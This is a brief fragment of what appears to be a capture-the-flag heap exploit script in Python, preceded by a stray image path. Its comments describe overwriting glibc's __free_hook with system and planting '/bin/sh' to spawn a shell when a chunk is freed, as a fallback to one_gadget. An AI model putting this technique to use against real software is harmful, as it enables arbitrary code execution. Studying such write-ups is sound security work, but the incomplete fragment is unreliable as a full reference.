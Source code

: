 ```python
# this step is a trick, you could also overwrite with one_gadget but you can use this trick
# if the one_gadget fails, write /bin/sh\0 to __free_hook - 8 and write system to __free_hook
dele(4) # trigger system call /bin/sh
io.interactive()
```